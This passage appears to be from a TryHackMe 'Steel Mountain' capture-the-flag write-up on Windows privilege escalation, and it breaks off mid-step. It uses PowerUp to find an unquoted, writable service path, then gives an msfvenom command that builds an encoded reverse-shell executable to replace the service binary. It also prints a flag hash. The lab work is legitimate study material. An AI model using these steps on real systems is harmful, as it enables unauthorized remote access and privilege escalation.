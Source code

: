 **Answer:** b04763b6fcf51fcd7c13abc7db4fd365

## Third Task - Privilege Escalation

Now that I have an initial shell on this Windows machine as Bill, it's time to enumerate the system and escalate privileges to root.

For the enumeration, I’m going to use a PowerShell script called PowerUp, which is designed to scan the machine and identify any potential misconfigurations or privilege escalation vectors.

According to its description, "PowerUp aims to be a clearinghouse of common Windows privilege escalation vectors that rely on misconfigurations."

To execute this using Meterpreter, I will type load powershell into meterpreter. Then I will enter powershell by entering powershell_shell:

I paid close attention to the CanRestart option set to true in the PowerUp output. Among the results, I found a service that stood out due to an unquoted service path vulnerability.

![Web 80 Index](/images/tryhackme_steel.mountain/p1.jpg){: width="1200" height="600"}

The name of that service is **AdvancedSystemCareService9**.

Since the CanRestart option was set to true, I realized I could manually restart the service. I also noticed that the directory where the service executable is located was writeable, which meant I could replace the legitimate application with a malicious one. Once replaced, restarting the service would execute my payload.

To generate the payload, I used the following msfvenom command:

```console
msfvenom -p windows/shell_reverse_tcp LHOST=<MY_IP> LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe
```

After generating the binary, I uploaded it to the target machine using Metasploit and prepared to replace the original executable.

![Web 80 Index](/images/tryhackme_steel.mountain/p2.jpg){: width="1200" height="600"}

Before copying the file, I stopped the service using:
